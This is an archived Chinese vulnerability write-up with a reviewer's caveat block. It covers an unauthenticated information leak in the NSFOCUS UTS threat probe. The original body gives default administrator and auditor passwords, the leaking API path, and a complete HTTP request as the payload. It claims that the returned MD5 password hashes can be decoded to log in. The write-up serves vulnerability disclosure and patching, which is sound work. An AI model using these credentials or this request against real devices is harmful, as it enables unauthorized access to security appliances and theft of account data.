


# 绿盟 UTS 综合威胁探针 信息泄露

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：NSFOCUS UTS综合威胁探针
- 本文讨论：webapi accountmanage/account无授权泄露；另述默认凭据
- 版本、权限与配置前提：声称无认证，型号/版本不明
- 资料类型：账号信息泄露预警；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- MD5称编码并能解码不准确，可能需破解或374所示hash重放
- 默认账户与接口读取前提混写；补丁URL被粗体拆开
- 只列产品名为version，字段证据在截图
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 是否hash可直接登录、固定版本和默认凭据范围待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TBgcl6JMhoAOl4CIluU9xg)

**漏洞说明**

绿盟综合威胁探针（NSFOCUS UTS），是一款面向全行业的全流量威胁检测探针，集绿盟多年安全研究及威胁检测能力于一身，运用规则引擎、虚拟沙箱、威胁情报、机器学习等技术，具备识别广泛、检测精准、互联互通的特点，可面向不同场景检测和分析高级威胁，回溯安全事件。

绿盟 UTS 综合威胁探针 存在未授权访问接口泄露敏感信息。

**影响版本**

```
绿盟 UTS综合威胁探针

```

**漏洞复现**



默认账号

```
admin/Nsfocus@123
auditor/auditor

```

payload：  

```
/webapi/v1/system/accountmanage/account

```

```http
GET /webapi/v1/system/accountmanage/account HTTP/1.1
Host: ip:port
Sec-Ch-Ua: "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```



密码为 MD5 编码，解码后可进行登录  

**修复建议**  

**安装官方补丁：**

**http://update.nsfocus.com/update/listBsaU****tsDetail/v/F02**

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
